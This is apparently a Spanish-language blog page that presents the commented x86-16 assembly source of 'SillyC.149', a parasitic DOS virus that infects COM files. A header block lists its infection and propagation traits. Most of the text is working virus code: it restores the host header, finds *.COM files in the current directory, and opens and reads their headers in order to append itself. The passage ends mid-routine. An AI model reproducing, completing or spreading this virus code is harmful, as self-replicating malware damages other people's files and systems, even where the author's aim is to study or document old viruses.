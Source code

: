 ## Código fuente
{% highlight nasm linenos %}
;##############################################################################  
;# Nombre:        virus://DOS/SillyC.149  
;# Plataforma:    Intel x86  
;# SO:            DOS v2.0+, Win32 (mediante NTVDM)  
;# Lenguaje:      ASM x86-16 (sintaxis Intel)  
;# Herramientas:  TASM v4.1, TLINK v7.1.30.1  
;# Tipo:          Parasitic, Non-Resident, COM infector  
;# Tamaño:        149 bytes  
;# Propagación:   Acción directa sobre el directorio actual.  
;# Infección:     Postpending en archivos COM (no READ-ONLY/HIDDEN/SYSTEM).  
;#                Sin reconocimiento propio.  
;# Residente:     No  
;# Stealth:       No  
;# Payload:       No  
;##############################################################################
                .8086  
                .model tiny

                assume cs:virus, ds:virus

       virus    segment byte public 'CODE'

                org 100h
      start:    jmp short body                        ; cabezal, en las siguientes generaciones aquí  
                nop                                   ; habrá un near JMP de 3 bytes

                mov ah, 00h                           ; / huésped dummy, solo retorna a DOS  
                int 21h                               ; \
            
       body:    call d_offset                         ; calcular delta offset  
   d_offset:    pop bp  
                sub bp, offset d_offset 
                
                mov cx, 3                             ; restaurar cabezal original  
                lea si, [bp + host_head]  
                mov di, 100h  
                rep movsb
                
                mov ah, 4Eh                           ; | AH = 4Eh  
                xor cx, cx                            ; | CX = 0, archivos normales  
                lea dx, [bp + search_str]             ; | DS:DX -> "*.COM"  
                int 21h                               ; |_DOS API - Buscar primer archivo
                
                jnc infect_file                       ; archivo encontrado  
                jmp exit                              ; no hay archivo

  find_next:    mov ah, 4Fh                           ; | AH = 4Fh  
                int 21h                               ; |_DOS API &#8211; Buscar siguiente archivo 

                jc exit                               ; no hay archivo

infect_file:    mov ah, 3Dh                           ; | AH = 3Dh  
                mov al, 2                             ; | AL = 2, lectura y escritura  
                mov dx, 9Eh                           ; | DS:DX -> DTA + 1Eh = 9Eh (FileName)  
                int 21h                               ; |_DOS API - Abrir archivo existente

                jc find_next                          ; no se puede abrir archivo, buscar siguiente archivo  
                push ax                               ; guardar handle y continuar infección
                  
                mov ah, 3Fh                           ; | AH = 3Fh  
                pop bx                                ; | BX = handle del archivo  
                mov cx, 3                             ; | CX = tamaño del cabezal, 3 bytes  
                lea dx, [bp + host_head]              ; | DS:DX -> destino: buffer para cabezal original  
                int 21h                               ; |_DOS API - Leer de archivo/dispositivo
                  
                jc close_file                         ; no se puede leer el archivo, cerrarlo
